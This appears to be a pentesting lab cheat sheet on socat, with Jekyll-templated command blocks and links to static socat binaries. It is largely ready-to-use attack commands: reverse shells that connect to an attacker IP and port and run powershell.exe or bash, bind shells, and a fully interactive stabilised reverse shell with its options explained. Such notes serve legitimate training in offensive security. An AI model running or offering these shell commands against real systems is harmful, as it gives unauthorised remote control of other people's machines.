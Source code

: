 Use these links as references.
- [SOCAT linux binary without dependencies](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true){:target="_blank"}
- [SOCAT windows binary without dependencies](https://sourceforge.net/projects/unix-utils/files/socat/){:target="_blank"}

Socat is as a connector between two points. This will essentially be a listening port and the keyboard, it could also be a listening port and a file, or two listening ports. Socat provides a link between two points.

An example listener command. Use `-d -d` to turn on debug mode.
{% capture code %}{% raw %}socat TCP:<target-ip>:<target-port> -{% endraw %}{% endcapture %} {% include code.html code=code %}


### Reverse shell

An example reverse shell for windows targets.
{% capture code %}{% raw %}socat TCP:<attacker-ip>:<attacker-port> EXEC:powershell.exe,pipes{% endraw %}{% endcapture %} {% include code.html code=code %}

An example reverse shell for linux targets.
{% capture code %}{% raw %}socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li"{% endraw %}{% endcapture %} {% include code.html code=code %}


### Bind shell

An example bind shell for windows targets.
{% capture code %}{% raw %}socat TCP-L:<port> EXEC:powershell.exe,pipes{% endraw %}{% endcapture %} {% include code.html code=code %}

An example bind shell for linux targets.
{% capture code %}{% raw %}socat TCP-L:<port> EXEC:"bash -li"{% endraw %}{% endcapture %} {% include code.html code=code %}


### Stabilising

An example to stabilise the `socat` shell listener from attaching machine.
{% capture code %}{% raw %}socat TCP-L:<port> FILE:`tty`,raw,echo=0{% endraw %}{% endcapture %} {% include code.html code=code %}

An example to stabilise the `socat` shell from linux target machine.
{% capture code %}{% raw %}socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane{% endraw %}{% endcapture %} {% include code.html code=code %}

From the above command, the description for options are as follows.
- pty - allocates a pseudoterminal on the target
- stderr - error messages shown in the shell
- sigint - passes Ctrl + C commands through sub-process, allowing us to kill commands inside the shell
- setsid - creates the process in a new session
- sane - stabilises the terminal


## Task 7 - Socat Encrypted Shells
